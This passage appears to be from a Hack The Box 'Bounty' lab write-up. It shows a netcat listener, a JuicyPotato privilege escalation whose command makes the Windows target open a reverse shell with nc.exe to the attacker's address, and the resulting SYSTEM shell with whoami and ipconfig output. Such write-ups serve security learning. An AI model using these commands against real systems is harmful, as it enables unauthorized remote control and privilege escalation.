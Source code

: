 ```
```
Now we have to start a new netcat listener. 
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ rlwrap nc -lvp 9998                                                             
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9998
Ncat: Listening on 0.0.0.0:9998

```

## Privilege escalation
Now we have to run the JuicyPotato binary to launch a reverse shell to our machine.
```
PS C:\users\public\downloads> .\JuicyPotato.exe -l 1337 -p c:\windows\System32\cmd.exe -a "/c c:\users\public\downloads\nc.exe -e cmd.exe 10.10.14.44 9998"-t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
PS C:\users\public\downloads> 

```
Afer running the exploit we should check the netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HTB/Bounty]
└─$ rlwrap nc -lvp 9998                                                             
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9998
Ncat: Listening on 0.0.0.0:9998
Ncat: Connection from 10.129.199.36.
Ncat: Connection from 10.129.199.36:49181.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```
We have a reverse shell from our target.  The last step is to capture the proof we pwned the system and capture the user and root flag.

```
C:\Windows\system32>whoami&&hostname&&ipconfig
whoami&&hostname&&ipconfig
nt authority\system
bounty

Windows IP Configuration


Ethernet adapter Local Area Connection 3:

   Connection-specific DNS Suffix  . : .htb
   IPv6 Address. . . . . . . . . . . : dead:beef::e8cc:6238:ca08:c026
   Link-local IPv6 Address . . . . . : fe80::e8cc:6238:ca08:c026%17
   IPv4 Address. . . . . . . . . . . : 10.129.199.36
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:7437%17
                                       10.129.0.1

Tunnel adapter isatap..htb:

```